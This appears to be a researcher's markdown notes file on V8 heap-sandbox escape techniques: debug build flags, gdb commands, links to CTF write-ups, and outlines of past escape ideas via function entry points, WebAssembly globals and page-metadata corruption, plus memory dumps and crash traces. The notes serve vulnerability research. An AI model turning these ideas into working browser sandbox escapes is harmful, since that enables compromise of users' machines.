





## Table of Contents
- [Debugging V8](#debugging-v8)
- [V8 Sandbox](#v8-heap-sandbox)
  - [Studying Previous Sandbox Escape Techniques](#studying-previous-sandbox-escape-techniques)
  - [Understanding Mutable Page Metadata](#understanding-mutable-page-metadata)
  - [Finally](#finally)

- [Escapse V8 Sandbox with changing JIT variables](#escapse-v8-sandbox-with-changing-jit-variables)

- [Studying v8 sandbox table mamping](#studying-v8-sandbox-table-mamping)
  - [Blogs](#blogs)
  - [WebAssembly](#webassembly)
    - [wasm instance object](#wasm-instance-object)
    - [wasm function](#wasm-function)
    - [Memory limited](#memory-limited)
    - [FunctionData](#functiondata)
  - [JSArray](#jsarray)
  - [DataView](#dataview)


## Debugging V8

Arguments:

```
is_debug = true
symbol_level = 2
dcheck_always_on = false
target_cpu = "x64"
v8_enable_memory_corruption_api = true
v8_enable_object_print = true
v8_optimized_debug = false
v8_enable_backtrace = true
```


## V8 (heap) Sandbox

**Setting up commands**

```cpp
./out/debug/d8 --expose-gc --allow-natives-syntax --sandbox-testing --trace-turbo --shell ../tests/test3.js

// r --allow-natives-syntax --sandbox-testing ../../../test.js
r --allow-natives-syntax --expose-gc --sandbox-testing ../../../tests/test.js

// printing process infomation: pid, cmdline, cwd, exe,...
info proc

// process mapping 
info proc map 

// setting output in heximal type
set output-radix 16

// set condition breakpoint 
b ../../src/heap/memory-allocator.cc:380
condition 3 (chunk_metadata.reservation_.region_.address_&0xffffff)==0x40000

p chunk_metadata.reservation_.region_.address_

// set byte 
set {char}0x11223344 = 0x01

```

- Challenges:
    `Write to the page starting at 0x587b312b000`
- mmap 
```
587b312b000-587b312c000 r--p 00000000 00:00 0 
138f00000000-139700000000 ---p 00000000 00:00 0 
139700000000-139700010000 r--p 00000000 00:00 0 
139700010000-139700020000 ---p 00000000 00:00 0 
139700020000-139700040000 r--p 00000000 00:00 0 
139700040000-139700149000 rw-p 00000000 00:00 0 
139700149000-139700180000 ---p 00000000 00:00 0 
139700180000-13970027e000 r--p 00000000 00:00 0 
13970027e000-139700280000 ---p 00000000 00:00 0 
139700280000-1397002c0000 rw-p 00000000 00:00 0 
1397002c0000-139800000000 ---p 00000000 00:00 0 
139800000000-139800100000 rw-p 00000000 00:00 0 
139800100000-149f00000000 ---p 00000000 00:00 0 
343b00000000-343b00001000 rw-p 00000000 00:00 0 
343b00001000-343b00040000 ---p 00000000 00:00 0 
343b00040000-343b00080000 rw-p 00000000 00:00 0 
343b00080000-343b40000000 ---p 00000000 00:00 0 
555555554000-555555576000 r--p 00000000 08:03 6506518                    /home/vult/Desktop/v8/v8/out/debug/d8
555555576000-5555555c2000 r-xp 00021000 08:03 6506518                    /home/vult/Desktop/v8/v8/out/debug/d8


```

- output:
```
pwndbg> x/20gx 0x1397000493f5-1
0x1397000493f4:	0x414141410028380d	0x0000000000004141
0x139700049404:	0x00000068000493b1	0x0000000000000000

```
### Studying Previous Sandbox Escape Techniques
- Blogs:
    1. https://ju256.de/posts/kitctfctf22-date/
    2. https://jhalon.github.io/chrome-browser-exploitation-1/
    3. https://blog.kylebot.net/2022/02/06/DiceCTF-2022-memory-hole/
    4. https://saelo.github.io/presentations/offensivecon_24_the_v8_heap_sandbox.pdf


**Idea 1: Corrupting a Function object to redirect code execution to an arbitrary location**

Example:
```js
const foo = () => {
  return;
}
%DebugPrint(foo);
%SystemBreak();

```
The author manipulates the `code_entry_point` of a function that it's possible to redirect execution to a controlled address. In the newest version, they didn't store `code_entry_point` raw pointer in the v8 memory.  

**Idea 2: WebAssembly**

  - https://issues.chromium.org/issues/40068627
  - https://issues.chromium.org/issues/41482162

This idea demonstrates how to gain relative out-of-bound (OOB) read/write access by manipulating the length of an Array object. The solution involved manipulating WebAssembly's use of global variables to achieve arbitrary write access outside of the cage. 

```js
var wasm_code2 = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod2 = new WebAssembly.Module(wasm_code2);
var wasm_instance2 = new WebAssembly.Instance(wasm_mod2);
var f = wasm_instance2.exports.main;
```

DebugPrint log:
```cpp
addr[0x170f00000048] = 0x170f00040000
low_ofs_started_page = 40000
[low_ofs_started_page]: = 12
before writing to addr: 0x170f00040000;
//================================================
DebugPrint: 0x170f0029a781: [Function] in OldSpace
 - map: 0x170f002926fd <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x170f00281dc9 <JSFunction (sfi = 0x170f001474d1)>
 - elements: 0x170f00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x170f0029a751 <SharedFunctionInfo js-to-wasm::i>
 - name: 0x170f000027e1 <String[1]: #0>
 - builtin: JSToWasmWrapper
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x170f00281729 <NativeContext[295]>
 - code: 0x170f00265afd <Code BUILTIN JSToWasmWrapper>
 - Wasm instance data: 0x1ba1000404c9 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - Wasm function index: 0
 - properties: 0x170f00000725 <FixedArray[0]>


 - feedback vector: feedback metadata is not available in SFI
0x170f002926fd: [Map] in OldSpace
 - map: 0x170f002816d9 <MetaMap (0x170f00281729 <NativeContext[295]>)>
 - type: JS_FUNCTION_TYPE
 - instance size: 28
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - callable
 - back pointer: 0x170f00000069 <undefined>
 - prototype_validity cell: 0x170f00000a89 <Cell value= 1>
 - instance descriptors (own) #4: 0x170f00292725 <DescriptorArray[4]>
 - prototype: 0x170f00281dc9 <JSFunction (sfi = 0x170f001474d1)>
 - constructor: 0x170f00281e6d <JSFunction Function (sfi = 0x170f00276e5d)>
 - dependent code: 0x170f00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

DebugPrint: 0x170f0029a651: [WasmInstanceObject] in OldSpace
 - map: 0x170f0028f4d5 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x170f0028f581 <Object map = 0x170f0029a601>
 - elements: 0x170f00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x1ba1000404c9 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x170f0029c265 <Module map = 0x170f0028f3ad>
 - shared_part: 0x170f0029a651 <Instance map = 0x170f0028f4d5>
 - exports_object: 0x170f0029c325 <Object map = 0x170f0029a7c5>
 - properties: 0x170f00000725 <FixedArray[0]>
 - All own properties (excluding elements): {}

0x170f0028f4d5: [Map] in OldSpace
 - map: 0x170f002816d9 <MetaMap (0x170f00281729 <NativeContext[295]>)>
 - type: WASM_INSTANCE_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - back pointer: 0x170f00000069 <undefined>
 - prototype_validity cell: 0x170f00000a89 <Cell value= 1>
 - instance descriptors (own) #0: 0x170f00000759 <DescriptorArray[0]>
 - prototype: 0x170f0028f581 <Object map = 0x170f0029a601>
 - constructor: 0x170f0028f4b5 <JSFunction Instance (sfi = 0x170f00147a41)>
 - dependent code: 0x170f00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

```
They moved all of trusted data to readonly region. 

**Idea 3: Global values that can access out of sandbox**

  - String's length: https://chromium-review.googlesource.com/c/v8/v8/+/5335156
  - Builtin_id: https://chromium-review.googlesource.com/c/v8/v8/+/5332218 

### Understanding Mutable Page Metadata


V8 uses a garbage collector to manage memory allocation and deallocation. The heap in v8 is divied into different spaces (e.g., new space, old space, code space), and each of space consists of memory chunks or pages. Managing these pages involves maintaining metadata about their state, usage, and other attributes.  

```
#
# Fatal error in ../../src/heap/mutable-page-inl.h, line 57
# Debug check failed: owner() == nullptr == Chunk()->InReadOnlySpace() (0 vs. 1).
#
// Stacktrace

#0  0x00007ffff4028016 in v8::base::OS::Abort() () at ../../src/base/platform/platform-posix.cc:699
#1  0x00007ffff400b8cb in V8_Fatal(char const*, int, char const*, ...) () at ../../src/base/logging.cc:205
#2  0x00007ffff400b305 in v8::base::(anonymous namespace)::DefaultDcheckHandler(char const*, int, char const*) () at ../../src/base/logging.cc:57
#3  0x00007ffff5bffedd in v8::internal::MainAllocator::Verify() const () at ../../src/heap/mutable-page-inl.h:57
#4  0x00007ffff5c00ead in v8::internal::MainAllocator::FreeLinearAllocationArea() () at ../../src/heap/main-allocator.cc:338
#5  0x00007ffff5b9988e in v8::internal::HeapAllocator::FreeLinearAllocationAreas() () at ../../src/heap/heap-allocator.cc:236
#6  0x00007ffff5bd1b64 in v8::internal::Heap::StartTearDown() () at ../../src/heap/heap.cc:6106
#7  0x00007ffff5a1963c in v8::internal::Isolate::Deinit() () at ../../src/execution/isolate.cc:4151
#8  0x00007ffff5a191b3 in v8::internal::Isolate::Delete(v8::internal::Isolate*) () at ../../src/execution/isolate.cc:3833
#9  0x000055555559e4c9 in v8::Shell::OnExit(v8::Isolate*, bool) () at ../../src/d8/d8.cc:3901
#10 0x00005555555ab4bd in v8::Shell::Main(int, char**) () at ../../src/d8/d8.cc:6233
#11 0x00007ffff3833083 in __libc_start_main (main=0x5555555ab830 <main>, argc=4, argv=0x7fffffffe308, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe2f8) at ../csu/libc-start.c:308
#12 0x0000555555576c9a in _start ()
```

```cpp

pwndbg> p s
$10 = {
  <v8::internal::Tagged<v8::internal::HeapObject>> = {
    <v8::internal::TaggedImpl<1, unsigned long>> = {
      static kIsFull = 0x1,
      static kCanBeWeak = 0x0,
      ptr_ = 0x345200049ccd
    }, <No data fields>}, <No data fields>}
```

**When using gc()**

- semispace...


Stacktrace:
```cpp
#0  0x00007fffeda6f189 in v8::base::OS::Abort()::$_0::operator()() const (this=0x7fffffffd1af) at ../../src/base/platform/platform-posix.cc:699
#1  0x00007fffeda6f173 in v8::base::OS::Abort () at ../../src/base/platform/platform-posix.cc:699
#2  0x00007fffeda453d1 in V8_Fatal (file=0x7ffff1e6a339 "../../src/heap/memory-allocator.h", line=0x3b, format=0x7fffeda18f73 "Debug check failed: %s.") at ../../src/base/logging.cc:205
#3  0x00007fffeda44d9c in v8::base::(anonymous namespace)::DefaultDcheckHandler (file=0x7ffff1e6a339 "../../src/heap/memory-allocator.h", line=0x3b, message=0x7ffff1f2e467 "!chunk->Chunk()->IsLargePage()") at ../../src/base/logging.cc:57
#4  0x00007fffeda4548e in V8_Dcheck (file=0x7ffff1e6a339 "../../src/heap/memory-allocator.h", line=0x3b, message=0x7ffff1f2e467 "!chunk->Chunk()->IsLargePage()") at ../../src/base/logging.cc:217
#5  0x00007ffff462dfa8 in v8::internal::MemoryAllocator::Pool::Add (this=0x5555556fdaf8, chunk=0x5555557670f0) at ../../src/heap/memory-allocator.h:59
#6  0x00007ffff462c15b in v8::internal::MemoryAllocator::Free (this=0x5555556fda80, mode=v8::internal::MemoryAllocator::FreeMode::kPool, chunk_metadata=0x5555557670f0) at ../../src/heap/memory-allocator.cc:396
#7  0x00007ffff464f906 in v8::internal::SemiSpace::Uncommit (this=0x5555556f5660) at ../../src/heap/new-spaces.cc:163
#8  0x00007ffff464f808 in v8::internal::SemiSpace::TearDown (this=0x5555556f5660) at ../../src/heap/new-spaces.cc:119
#9  0x00007ffff4651af0 in v8::internal::SemiSpaceNewSpace::~SemiSpaceNewSpace (this=0x5555556f5550) at ../../src/heap/new-spaces.cc:490
#10 0x00007ffff4651b59 in v8::internal::SemiSpaceNewSpace::~SemiSpaceNewSpace (this=0x5555556f5550) at ../../src/heap/new-spaces.cc:488
#11 0x00007ffff455f6e8 in std::__Cr::default_delete<v8::internal::Space>::operator() (this=0x555555716258, __ptr=0x5555556f5550) at ../../third_party/libc++/src/include/__memory/unique_ptr.h:67
#12 0x00007ffff45362e6 in std::__Cr::unique_ptr<v8::internal::Space, std::__Cr::default_delete<v8::internal::Space> >::reset (this=0x555555716258, __p=0x0) at ../../third_party/libc++/src/include/__memory/unique_ptr.h:278
#13 0x00007ffff4514a60 in v8::internal::Heap::TearDown (this=0x5555557160f8) at ../../src/heap/heap.cc:6212
#14 0x00007ffff42a3e33 in v8::internal::Isolate::Deinit (this=0x555555708000) at ../../src/execution/isolate.cc:4215
#15 0x00007ffff42a381f in v8::internal::Isolate::Delete (isolate=0x555555708000) at ../../src/execution/isolate.cc:3833
#16 0x00007ffff3d272e5 in v8::Isolate::Dispose (this=0x555555708000) at ../../src/api/api.cc:9816
#17 0x000055555567edfd in v8::Shell::OnExit (isolate=0x555555708000, dispose=0x1) at ../../src/d8/d8.cc:3901
#18 0x000055555568c92b in v8::Shell::Main (argc=0x5, argv=0x7fffffffe2e8) at ../../src/d8/d8.cc:6233
#19 0x000055555568cd52 in main (argc=0x5, argv=0x7fffffffe2e8) at ../../src/d8/d8.cc:6256
#20 0x00007fffed1eb083 in __libc_start_main (main=0x55555568cd30 <main(int, char**)>, argc=0x5, argv=0x7fffffffe2e8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe2d8) at ../csu/libc-start.c:308
#21 0x00005555556388da in _start ()
```

```cpp

// normal page 
pwndbg> x/40wx 0x00001e4800340000
0x1e4800340000:	0x00000012	0x00000000	0x0000000d	0xbeadbeef
0x1e4800340010:	0x00000971	0x0007ffe0	0xbeadbeef	0xbeadbeef
0x1e4800340020:	0xbeadbeef	0xbeadbeef	0xbeadbeef	0xbeadbeef

// corrupted page
pwndbg> x/40wx 0x00001e4800040000
0x1e4800040000:	0x42424242	0x41414141	0x00000001	0xbeadbeef
0x1e4800040010:	0x42424242	0x41414141	0xbeadbeef	0xbeadbeef
0x1e4800040020:	0x42424242	0x41414141	0xbeadbeef	0xbeadbeef

pwndbg> p chunk_metadata
$10 = (v8::internal::MutablePageMetadata *) 0x5555557670f0
pwndbg> x/40gx 0x5555557670f0
0x5555557670f0:	0x00005555556fe140	0x00001e4800040000
0x555555767100:	0x0000000000040000	0x000000000003fff0 // +0x10 -> size_
0x555555767110:	0x0000000000000000	0x0000000000009cc8

/// proc mapping
seacloud at ~/Desktop/v8/v8 ❯ cat /proc/3901929/maps | head -n 50
1913b1539000-1913b153a000 r--p 00000000 00:00 0 
1e4000000000-1e4800000000 ---p 00000000 00:00 0 
1e4800000000-1e4800010000 r--p 00000000 00:00 0 
1e4800010000-1e4800020000 ---p 00000000 00:00 0 
1e4800020000-1e4800040000 r--p 00000000 00:00 0 
1e4800040000-1e4800149000 rw-p 00000000 00:00 0 
1e4800149000-1e4800180000 ---p 00000000 00:00 0 
1e4800180000-1e480027e000 r--p 00000000 00:00 0 
1e480027e000-1e4800280000 ---p 00000000 00:00 0 
1e4800280000-1e48003c0000 rw-p 00000000 00:00 0 
1e48003c0000-1e4900000000 ---p 00000000 00:00 0 
1e4900000000-1e4900100000 ---p 00000000 00:00 0 
1e4900100000-1f5000000000 ---p 00000000 00:00 0 
3b3700000000-3b3700001000 rw-p 00000000 00:00 0 
3b3700001000-3b3700040000 ---p 00000000 00:00 0 
3b3700040000-3b3700080000 rw-p 00000000 00:00 0 
3b3700080000-3b3740000000 ---p 00000000 00:00 0 
555555554000-555555638000 r--p 00000000 08:03 8704715                    /home/vult/Desktop/v8/v8/out/debug/d8
555555638000-5555556e7000 r-xp 000e3000 08:03 8704715                    /home/vult/Desktop/v8/v8/out/debug/d8
5555556e7000-5555556e9000 r--p 00191000 08:03 8704715                    /home/vult/Desktop/v8/v8/out/debug/d8
5555556e9000-5555556eb000 rw-p 00192000 08:03 8704715                    /home/vult/Desktop/v8/v8/out/debug/d8
5555556eb000-5555557e7000 rw-p 00000000 00:00 0  

// ../../src/heap/memory-allocator.cc:380
pwndbg> p *(v8::internal::MutablePageMetadata *) 0x5555557670f0 // out of sandbox
$58 = {
  <v8::internal::MemoryChunkMetadata> = {
    reservation_ = {
      page_allocator_ = 0x5555556fe140,
      region_ = {
        address_ = 0x104500040000,
        size_ = 0x40000
      }
    },

// ../../src/heap/mutable-page.cc:150
pwndbg> p page
$59 = (v8::internal::PageMetadata *) 0x5555557670f0
pwndbg> p *page
$60 = {
  <v8::internal::MutablePageMetadata> = {
    <v8::internal::MemoryChunkMetadata> = {
      reservation_ = {
        page_allocator_ = 0x5555556fe140,
        region_ = {
          address_ = 0x104500040000,
          size_ = 0x40000
        }
      },

//
pwndbg> p *page
$60 = {
  <v8::internal::MutablePageMetadata> = {
    <v8::internal::MemoryChunkMetadata> = {
      reservation_ = {
        page_allocator_ = 0x5555556fe140,
        region_ = {
          address_ = 0x104500040000,
          size_ = 0x40000
        }
      },
      allocated_bytes_ = 0x3fff0,
      wasted_memory_ = 0x0,
      high_water_mark_ = {
        <std::__Cr::__atomic_base<long, 1>> = {
          <std::__Cr::__atomic_base<long, 0>> = {
            __a_ = {
              <std::__Cr::__cxx_atomic_base_impl<long>> = {
                __a_value = 0x9cec
              }, <No data fields>},
            static is_always_lock_free = <optimized out>
          }, <No data fields>}, <No data fields>},
      size_ = 0x40000,
      area_end_ = 0x104500080000,
      heap_ = 0x5555557160f8,
      area_start_ = 0x104500040010,
      owner_ = {
        <std::__Cr::__atomic_base<v8::internal::BaseSpace*, 0>> = {
          __a_ = {
            <std::__Cr::__cxx_atomic_base_impl<v8::internal::BaseSpace*>> = {
              __a_value = 0x5555556f5660
            }, <No data fields>},
          static is_always_lock_free = <optimized out>
        }, <No data fields>}
    }, 
    members of v8::internal::MutablePageMetadata:
    static kHeaderSize = 0x10,
    static kOldToNewSlotSetOffset = 0x58,
    static kPageSize = 0x40000,
    slot_set_ = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0},
    typed_slot_set_ = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0},
    progress_bar_ = {
      static kDisabledSentinel = 0xffffffffffffffff,
      value_ = {
        <std::__Cr::__atomic_base<unsigned long, 1>> = {
          <std::__Cr::__atomic_base<unsigned long, 0>> = {
            __a_ = {
              <std::__Cr::__cxx_atomic_base_impl<unsigned long>> = {
                __a_value = 0xffffffffffffffff
              }, <No data fields>},
            static is_always_lock_free = <optimized out>
          }, <No data fields>}, <No data fields>}
    },
    live_byte_count_ = {
      <std::__Cr::__atomic_base<long, 1>> = {
        <std::__Cr::__atomic_base<long, 0>> = {
          __a_ = {
            <std::__Cr::__cxx_atomic_base_impl<long>> = {
              __a_value = 0x0
            }, <No data fields>},
          static is_always_lock_free = <optimized out>
        }, <No data fields>}, <No data fields>},
    mutex_ = 0x0,
    shared_mutex_ = 0x0,
    page_protection_change_mutex_ = 0x0,
    concurrent_sweeping_ = {
      <std::__Cr::__atomic_base<v8::internal::MutablePageMetadata::ConcurrentSweepingState, 0>> = {
        __a_ = {
          <std::__Cr::__cxx_atomic_base_impl<v8::internal::MutablePageMetadata::ConcurrentSweepingState>> = {
            __a_value = v8::internal::MutablePageMetadata::ConcurrentSweepingState::kDone
          }, <No data fields>},
        static is_always_lock_free = <optimized out>
      }, <No data fields>},
    external_backing_store_bytes_ = {{
        <std::__Cr::__atomic_base<unsigned long, 1>> = {
          <std::__Cr::__atomic_base<unsigned long, 0>> = {
            __a_ = {
              <std::__Cr::__cxx_atomic_base_impl<unsigned long>> = {
                __a_value = 0x0
              }, <No data fields>},
            static is_always_lock_free = <optimized out>
          }, <No data fields>}, <No data fields>}, {
        <std::__Cr::__atomic_base<unsigned long, 1>> = {
          <std::__Cr::__atomic_base<unsigned long, 0>> = {
            __a_ = {
              <std::__Cr::__cxx_atomic_base_impl<unsigned long>> = {
                __a_value = 0x0
              }, <No data fields>},
            static is_always_lock_free = <optimized out>
          }, <No data fields>}, <No data fields>}},
    list_node_ = {
      next_ = 0x0,
      prev_ = 0x0
    },
    categories_ = 0x0,
    possibly_empty_buckets_ = {
      static kPointerTag = 0x1,
      static kWordSize = 0x8,
      static kBitsPerWord = 0x40,
      bitmap_ = 0x0
    },
    active_system_pages_ = 0x0,
    allocated_lab_size_ = 0x0,
    age_in_new_space_ = 0x0,
    marking_bitmap_ = {
      static kBitsPerCell = 0x40,
      static kBitsPerCellLog2 = 0x6,
      static kBitIndexMask = 0x3f,
      static kBytesPerCell = 0x8,
      static kBytesPerCellLog2 = 0x3,
      static kLength = 0x10000,
      static kCellsCount = 0x400,
      static kSize = 0x2000,
      cells_ = {0x0 <repeats 1024 times>}
    }
  }, <No data fields>}

/// Data's controlable
pwndbg> p *(MemoryChunk*)0x104500040000
$65 = {
  static kAllFlagsMask = {
    mask_ = 0xffffffffffffffff
  },
  static kPointersToHereAreInterestingMask = {
    mask_ = 0x2
  },
  static kPointersFromHereAreInterestingMask = {
    mask_ = 0x4
  },
  static kEvacuationCandidateMask = {
    mask_ = 0x400
  },
  static kIsInYoungGenerationMask = {
    mask_ = 0x18
  },
  static kIsInReadOnlyHeapMask = <optimized out>,
  static kIsLargePageMask = {
    mask_ = 0x200
  },
  static kInSharedHeap = <optimized out>,
  static kIncrementalMarking = <optimized out>,
  static kSkipEvacuationSlotsRecordingMask = {
    mask_ = 0x418
  },
  static kCopyOnFlipFlagsMask = {
    mask_ = 0x26
  },
  static kIsOnlyOldOrMajorGCInProgressMask = {
    mask_ = 0x180
  },
  main_thread_flags_ = {
    mask_ = 0x4141414142068000
  },
  metadata_index_ = 0x1,    // 
  static kAlignment = 0x40000,
  static kAlignmentMask = 0x3ffff,
  static kPagesInMainCage = 0x4000,
  static kPagesInCodeCage = 0x800,
  static kPagesInTrustedCage = 0x1000,
  static kMainCageMetadataOffset = 0x0,
  static kTrustedSpaceMetadataOffset = 0x4000,
  static kCodeRangeMetadataOffset = 0x5000,
  static kMetadataPointerTableSizeLog2 = 0xf,
  static kMetadataPointerTableSize = 0x8000,
  static kMetadataPointerTableSizeMask = 0x7fff,
  static metadata_pointer_table_ = <error reading variable: value requires 262144 bytes, which is more than max-value-size>
}

```
Another stacktrace:
```cpp
#0  v8::internal::MemoryChunkMetadata::area_start (this=0x0) at ../../src/heap/memory-chunk-metadata.h:56
#1  0x000055555563d135 in v8::internal::MemoryChunkMetadata::Chunk (this=0x0) at ../../src/heap/memory-chunk-metadata.h:117
#2  0x000055555563cf8a in v8::internal::MemoryChunk::Metadata (this=0x3acf00040000) at ../../src/heap/memory-chunk-inl.h:23
#3  0x00007ffff462e745 in v8::internal::MemoryChunk::Metadata (this=0x3acf00040000) at ../../src/heap/memory-chunk-inl.h:31
#4  0x00007ffff4634fd4 in v8::internal::MemoryChunk::IsTrusted (this=0x3acf00040000) at ../../src/heap/memory-chunk.cc:149
#5  0x00007ffff462dfbd in v8::internal::MemoryAllocator::Pool::Add (this=0x5555556fdaf8, chunk=0x5555557670f0) at ../../src/heap/memory-allocator.h:60
#6  0x00007ffff462c15b in v8::internal::MemoryAllocator::Free (this=0x5555556fda80, mode=v8::internal::MemoryAllocator::FreeMode::kPool, chunk_metadata=0x5555557670f0) at ../../src/heap/memory-allocator.cc:396
#7  0x00007ffff464f906 in v8::internal::SemiSpace::Uncommit (this=0x5555556f5660) at ../../src/heap/new-spaces.cc:163
#8  0x00007ffff464f808 in v8::internal::SemiSpace::TearDown (this=0x5555556f5660) at ../../src/heap/new-spaces.cc:119
#9  0x00007ffff4651af0 in v8::internal::SemiSpaceNewSpace::~SemiSpaceNewSpace (this=0x5555556f5550) at ../../src/heap/new-spaces.cc:490
#10 0x00007ffff4651b59 in v8::internal::SemiSpaceNewSpace::~SemiSpaceNewSpace (this=0x5555556f5550) at ../../src/heap/new-spaces.cc:488
#11 0x00007ffff455f6e8 in std::__Cr::default_delete<v8::internal::Space>::operator() (this=0x555555716258, __ptr=0x5555556f5550) at ../../third_party/libc++/src/include/__memory/unique_ptr.h:67
#12 0x00007ffff45362e6 in std::__Cr::unique_ptr<v8::internal::Space, std::__Cr::default_delete<v8::internal::Space> >::reset (this=0x555555716258, __p=0x0) at ../../third_party/libc++/src/include/__memory/unique_ptr.h:278
